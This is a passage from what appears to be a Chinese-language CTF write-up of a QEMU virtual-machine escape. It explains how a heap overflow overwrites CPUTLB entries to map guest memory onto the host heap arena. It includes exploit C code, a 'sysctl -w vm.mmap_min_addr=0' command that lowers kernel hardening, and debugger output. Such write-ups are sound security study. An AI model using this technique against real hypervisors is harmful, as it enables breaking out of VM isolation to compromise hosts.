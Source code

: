 * `cpu->neg.tlb.f[mmu_idx].mask`：CPUTLB大小的掩码，如CPUTLB大小为0x800时，掩码为0x7ff
* `CPU_TLB_ENTRY_BITS`：32位程序为4，64位程序为5，`1<<CPU_TLB_ENTRY_BITS`为CPUTLBEntry的大小
* `TARGET_PAGE_BITS`：通常为12，`1<<CPU_TLB_ENTRY_BITS`为一页的大小

综上，当CPUTLB大小为0x800时，`index = (gva>>12) & (0x7ff>>5)`。

**gva映射到的hva取决于gpa**，因此我们可以通过将gva绑定到固定的gpa（如0）在主机内存映射中获得固定位置。**已知线程堆arena始终位于gpa为0的hva后0x7e00000处。**

恰好当`gva = 0x7e00000`时，`index = 0x7e00 & 0x3f = 0`，即对应的`CPUTLBEntry`将填入`CPUTLB[0]`处，刚好便于我们通过前面的堆块溢出覆盖其指针。

具体利用步骤如下：

1. 利用chunk0溢出覆盖`chunk1.size = 0x115`，使chunk1刚好overlapped能覆盖到`CPUTLB[0].addr_read/write`

2. 将`gva = 0x7e00000`映射到`gpa = 0`，此时映射的`hva1 = 0x7e00000 + CPUTLB[0].added`

   （要映射`gpa=0`需要在命令行执行`sysctl -w vm.mmap_min_addr=0`）

3. 利用chunk1将`CPUTLB[0].addr_read/write`溢出覆盖为 0，`CPUTLB[0].added`保持不变

4. 此时我们对`gva = 0`进行读写，它将命中`CPUTLB[0].addr_read/write`，并将其映射到`hva2 = 0 + CPUTLB[0].added = hva1 - 0x7e00000 `，即线程堆arena的主机地址，之后对`gva=0`处进行读写即对线程堆arena进行读写。

```c
    system("sysctl -w vm.mmap_min_addr=0");

    // 2.3 overwrite CPUTLBEntry
    set64(7, 0x108, 0x35);
    parse_bdlp(7, 0x11-2); // make only 6 chunks in 0x110 tcache bins
    set64(0, 0xf8, 0x115);
    parse_bdlp(0, 0x10-2);

    volatile void *hit = mmio_init((void *)0x7e00000, 0, 0x1000);
    *(uint8_t *)hit = 0;
    parse_bdlp(1, 0x11-2);
```



#### 可能遇到的问题

调试过程中发现，由于0x810的overlapped chunk覆盖了部分其他堆块，导致0x90大小的tcache被破坏：

```gdb
pwndbg> bins
tcachebins
0x90 [  7]: 0x71ba18335460 ◂— 0xfffffff8e45e7cca

pwndbg> x /32gx 0x71ba18334e50
0x71ba18334e50:	0x0000000000000000	0x0000000000000815
0x71ba18334e60:	0xffffffffffffffff	0xffffffffffffffff
...
0x71ba18335460:	0xffffffffffffffff	0xffffffffffffffff <--- 0x90 tcache chunk
0x71ba18335470:	0xffffffffffffffff	0xffffffffffffffff
...
0x71ba18335650:	0xffffffffffffffff	0xffffffffffffffff
0x71ba18335660:	0x0000000000000810	0x00000000000000f5
0x71ba18335670:	0x000071ba18335820	0x000071ba18335860
```
